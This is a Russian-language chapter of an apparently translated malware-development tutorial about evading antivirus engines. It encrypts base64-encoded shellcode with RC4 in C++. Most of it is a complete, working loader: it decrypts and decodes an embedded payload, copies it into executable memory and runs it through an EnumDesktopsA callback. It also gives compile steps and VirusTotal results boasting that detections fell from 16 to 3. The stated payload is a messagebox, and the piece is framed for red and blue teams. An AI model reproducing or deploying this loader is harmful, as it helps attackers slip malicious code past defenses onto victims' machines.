




\newpage
\subsection{62. методы обхода AV/VM-движков - часть 9. Шифрование полезной нагрузки в кодировке base64 с помощью RC4. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}

Эта статья является результатом моего собственного исследования интересного трюка: шифрование полезной нагрузки в кодировке base64 с помощью RC4.

В большинстве случаев в реальной жизни простого кодирования полезной нагрузки в base64 достаточно во время пентеста, но если антивирусная защита хорошо настроена на целевом хосте, то это проблема. Что, если вы зашифруете ее с помощью потокового шифра? Можем ли мы уменьшить количество антивирусных движков, которые обнаруживают нашу полезную нагрузку?

### RC4

Это потоковый шифр, обычно используемый во многих системах информационной безопасности компьютерных сетей. Рональд Ривест, профессор Массачусетского технологического института, разработал этот алгоритм шифрования, хотя маловероятно, что кто-то будет использовать его в новых значимых проектах из-за обнаруженных уязвимостей.

Это простой алгоритм, и псевдокод для его реализации есть в Википедии, поэтому на языке `C++` он выглядит примерно так:

```cpp
// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
    i = (i + 1) % 256;
    j = (j + s[i]) % 256;
    swap(&s[i], &s[j]);
    keystream[k] = s[(s[i] + s[j]) % 256];
	}
	return keystream;
}

// encryption and decryption
unsigned char* RC4(unsigned char *plaintext, unsigned char* ciphertext, 
unsigned char* key, unsigned int keyL, unsigned int messageL) {
  int i;
  unsigned char s[256];
  unsigned char* keystream;
  KSA(s, key, keyL);
  keystream = PRGA(s, messageL);

  for (i = 0; i < messageL; i++) {
    ciphertext[i] = plaintext[i] ^ keystream[i];
  }
  return ciphertext;
}
```

### практический пример

Для нашего практического примера я сначала закодировал нашу полезную нагрузку `meow-meow` messagebox в base64, которая в свою очередь будет зашифрована с помощью алгоритма `RC4`:

{width="80%"}      

```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii"
"1IYPkiLUiA+SItyUD5ID7dKSk0xyUg"
"xwKw8YXwCLCBBwckNQQHB4u1SQVE+SI"
"tSID6LQjxIAdA+i4CIAAAASIXAdG9IAd"
"BQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1"
"k0xyUgxwKxBwckNQQHBOOB18T5MA"
"0wkCEU50XXWWD5Ei0AkSQHQZj5B"
"iwxIPkSLQBxJAdA+QYsEiEgB0EFY"
"QVheWVpBWEFZQVpIg+wgQVL/4FhBWV"
"o+SIsS6Un///9dScfBAAAAAD5IjZX+"
"AAAAPkyNhQkBAABIMclBukWDVgf/"
"1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * 
strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), 
strlen((const char*)plaintext));
```

Итак, в нашей вредоносной программе мы делаем обратный процесс: сначала мы расшифровываем его через `RC4`, а затем декодируем через `base64`. Для процесса декодирования base64 я использовал Win32 crypto API:      

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

//...
```

Наконец, у нас есть полный исходный код:      

```cpp
/*
hack.cpp
RC4 encrypt payload
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, 
unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
    i = (i + 1) % 256;
    j = (j + s[i]) % 256;
    swap(&s[i], &s[j]);
    keystream[k] = s[(s[i] + s[j]) % 256];
	}
	return keystream;
}

// encryption and decryption
unsigned char* RC4(unsigned char *plaintext, unsigned char* ciphertext, 
unsigned char* key, unsigned int keyL, unsigned int messageL) {
  int i;
  unsigned char s[256];
  unsigned char* keystream;
  KSA(s, key, keyL);
  keystream = PRGA(s, messageL);

  // printf("-------plaintext-----------\n");
  // for(i = 0; i < messageL; i++) {
  //   printf("%02hhx\t", plaintext[i]);
  // }
  // printf("\n\n");
	//
  // printf("-------key-----------\n");
  // for(i = 0; i < keyL; i++) {
  //   printf("%02hhx\t", key[i]);
  // }
  // printf("\n\n");

  for (i = 0; i < messageL; i++) {
    ciphertext[i] = plaintext[i] ^ keystream[i];
  }

  // printf("-------ciphertext-----------\n");
  // for(i = 0; i < messageL; i++) {
  //   printf("%02hhx\t", ciphertext[i]);
  // }
  // printf("\n\n");
  return ciphertext;
}

int main(int argc, char* argv[]) {
  unsigned char* plaintext = (unsigned char*)"/EiB5PD////"
  "o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA"
  "+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA"
  "+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k"
  "+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5"
  "BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///"
  "9dScfBAAAAAD5IjZX+AAAAPkyNhQkBAABIMclBukWDVgf/1UgxyUG68LWiVv/"
  "VTWVvdy1tZW93IQA9Xi4uXj0A";
  unsigned char* key = (unsigned char*)"key";
  unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) *
  strlen((const char*)plaintext));
  RC4(plaintext, ciphertext, key, strlen((const char*)key), strlen((const 
  char*)plaintext));

  unsigned char payload[] = 
  "\x24\x29\x5d\xaf\x11\xdf\x3f\x65\x67\x64\x27\x14\x26\x1c\x53\xbc"
  "\xce\x31\xab\x34\xfa\xb7\xa1\xac\x63\xa5\xf2\xf4\x74\x88\x31\xf2"
  "\x47\x74\xc2\xdd\xf0\xcb\x8f\xf5\x5a\xe6\xb6\xe8\x73\x16\x4f\xcf"
  "\xaf\x54\x79\x0c\x3f\x90\x7d\xfd\xa6\x2b\x0d\x71\xc7\xb0\xb6\x40"
  "\xf0\x12\xdc\xa8\xc5\x20\xb5\xc0\x45\x25\x03\x30\x03\x23\xd9\xc8"
  "\x82\xbc\x7d\x1a\xfe\xcc\x66\x32\x2e\xaa\x40\xc9\x61\xc2\x72\x77"
  "\x70\xba\xc7\xd2\x3b\xea\x3d\x6f\x07\xf5\xbc\xae\x1d\x32\xc8\xf3"
  "\x6f\x1c\x32\xe0\xd7\x65\x20\x72\xec\x21\xfe\xa9\xc5\x72\x12\xa6"
  "\x06\x38\x01\x3e\x16\xe8\x09\x68\x87\xc8\x7f\x0b\x44\xcf\xba\x9c"
  "\xbe\x7c\xfc\x3b\x96\x3f\x90\xdc\x96\xe3\x8c\x3f\x3a\xe7\x57\xa4"
  "\xcd\xa5\x42\x4b\x55\x2e\x5b\x89\xf6\xd9\x80\x55\xf8\xbc\x0b\x4e"
  "\x66\x96\x01\xce\xc8\x97\x6a\xbd\x31\x6d\xfd\x53\xae\xcd\x98\xc9"
  "\x28\x73\x60\x4a\x82\xe1\x2e\xb7\x77\xc5\x97\xbd\x3d\xed\xc1\x9c"
  "\xeb\xc6\x06\x3a\x44\xf5\xf8\x7d\x79\x30\x42\xea\xbd\x4d\xbf\xe5"
  "\x18\xcb\xa5\x78\x6f\xb7\xf9\x65\xd7\x36\xbd\x92\x76\xf0\xda\x60"
  "\x97\xac\xd1\xcf\x98\xbf\xd7\x66\xd1\x4b\x34\x96\xfb\xe9\xf8\xac"
  "\x59\xe9\x0e\x81\x81\xe4\x7f\xcf\xd6\x7f\x16\x48\xe1\x94\x0c\x7c"
  "\x8e\xa0\x85\xa1\x81\x0f\xc3\x5f\xfb\xfd\x05\x7b\x69\x5b\xb4\x78"
  "\x4e\x1e\x10\x1b\x29\xc4\xa9\x1d\xa6\xa3\xe6\xa9\xb0\xdd\xc5\x35"
  "\x3b\x0e\xdb\xca\x82\x64\x1a\x19\x53\xdd\x65\xe7\xd3\x5e\x2e\x7d"
  "\x8c\xfa\x80\x52\x6c\xa0\xad\x9a\x8f\xb6\xdc\x43\x8b\x8e\x5f\xac"
  "\x46\xb5\x90\x8a\x16\x3d\x4d\xb9\x17\xc6\x6d\x87\x13\xad\xa3\x78"
  "\x68\x7c\xbc\xcf\x1b\x26\xa6\xc3\x37\x10\xfc\xca\xc4\x78\xa6\xe1"
  "\x7e\x88\x53\xcc\x2e\x38\xe3\x15\xd0\x2b\xe9\x0f";
  unsigned char* encoded = (unsigned char *)payload;
  unsigned char* decoded = (unsigned char *)malloc(sizeof(unsigned char) * 
  (sizeof(payload) - 1));
  RC4(encoded, decoded, key, strlen((const char*)key), sizeof(payload) - 1);
  // printf("%s\n", decoded);

  unsigned int payload_bytes_len = 512;
  char * decoded_payload_bytes = (char *)malloc(sizeof(char) * payload_bytes_len);
  b64decode((const BYTE *)decoded, payload_bytes_len, 
  decoded_payload_bytes, payload_bytes_len);

  unsigned int decoded_payload_len = 285;
  unsigned char* decoded_payload = new unsigned char[decoded_payload_len];

  for (int j = 0; j < decoded_payload_len; j++) {
    decoded_payload[j] = decoded_payload_bytes[j];
  }

  printf("-------payload-----------\n");
  for (int i = 0; i < decoded_payload_len; i++) {
    printf("%02hhx\t", decoded_payload[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, decoded_payload_len + 1, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decoded_payload, decoded_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

### демо

Давайте посмотрим на все в действии. Скомпилируем нашу вредоносную программу:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lcrypt32
```

{width="80%"}

Затем запустим ее на машине жертвы:

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

Как видите, все работает отлично! =^..^=

Загрузим наше вредоносное ПО на `antiscan.me`:

{width="80%"}

[https://antiscan.me/scan/new/result?id=TDS4GtAWYrXY](https://antiscan.me/scan/new/result?id=TDS4GtAWYrXY)

и на VirusTotal:

{width="80%"}

**Как видите, только 3 из 70 антивирусных движков распознают наш файл как вредоносный.**

[https://www.virustotal.com/gui/file/345630f8fd18715b4151eec0238ef6a7024e801abcc6ac70e595373dedb11867/detection](https://www.virustotal.com/gui/file/345630f8fd18715b4151eec0238ef6a7024e801abcc6ac70e595373dedb11867/detection)

Поэтому можно предположить, что уклонение работает, потому что [эта техника](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) запуска шелл-кода показала результат **16 из 66**:

{width="80%"}

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)

**Мы сократили количество антивирусных движков, которые обнаруживают наше вредоносное ПО, с 16 до 3**!

Но в целом есть очень серьезная оговорка, почему мы получаем 3 в результате. Если мы запустим что-то вроде:

```bash
strings -n 8 | grep "o0AAAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xy"
```

{width="80%"}

Что мы видим??? Многие инструменты статического анализа сразу поймут вредоносную закладку после расшифровки таких строк. Поскольку наш код - это просто "грязный" PoC, поэтому эта строка предназначена для отладки и целей утверждения, это нормально, но в реальной жизни мы можем не увидеть таких индикаторов.

Надеюсь, этот пост повысит осведомленность синих (blue team) команд об этой интересной технике и добавит оружие в арсенал красных (red team) команд.

[RC4](https://en.wikipedia.org/wiki/RC4)    
[base64](https://en.wikipedia.org/wiki/Base64)    
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-08-16-malware-av-evasion-9)      
